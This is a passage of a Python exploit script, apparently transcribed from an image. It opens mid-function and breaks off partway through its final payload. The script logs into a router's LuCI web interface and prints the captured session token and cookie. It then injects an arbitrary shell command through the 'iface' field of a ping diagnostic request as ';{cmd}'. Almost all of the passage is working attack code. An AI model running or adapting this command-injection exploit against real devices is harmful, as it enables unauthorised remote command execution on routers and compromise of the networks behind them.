 ```

while line:

js = js + line

line = file.readline()

file.close()

return js

def execute(ip, port, username, passwd, cmd):

```
try:
    s = requests.session()

    uri = "http://{}:{}".format(ip,port)
    headers = {
        'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
        'Referer': 'http://{}/webpages/login.html'.format(ip)
        }
    payload = {
        "method":"get"
    }
    ret = s.post(uri + '/cgi-bin/luci/;stok=/login?form=login', data=urllib.urlencode({"data":json.dumps(payload)}), headers=headers, timeout=5)
    rsa_public_n = json.loads(ret.text)['result']['password'][0].encode("utf-8")
    rsa_public_e = json.loads(ret.text)['result']['password'][1].encode("utf-8")
    js = read_js()
    js_handle = execjs.compile(js)
    password = js_handle.call('MainEncrypt', rsa_public_n, rsa_public_e, passwd)

    payload = {
        "method":"login",
        "params":{
            "username":"{}".format(username),
            "password":"{}".format(password)
        }
    }
    ret = s.post(uri + '/cgi-bin/luci/;stok=/login?form=login', data=urllib.urlencode({"data":json.dumps(payload)}), headers=headers, timeout=5)
    stok = json.loads(ret.text)['result']['stok'].encode('utf-8')
    cookie = ret.headers['Set-Cookie']

    print '[+] Login success'
    print '[+] Get The Token: ' + stok
    print '[+] Get The Cookie: ' + cookie

    headers = {
        'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
        'Referer':'http://{}/webpages/login.html'.format(ip),
        'Cookie':'{}'.format(cookie)
        }
    payload = {
        "method":"start",
        "params":{
            "type":"0",
            "type_hidden":"0",
            "ipaddr_ping":"127.0.0.1",
            "iface_ping":"WAN1",
            "ipaddr":"127.0.0.1",
            "iface":";{}".format(cmd),
            "count":"1",
            "pktsize":"64",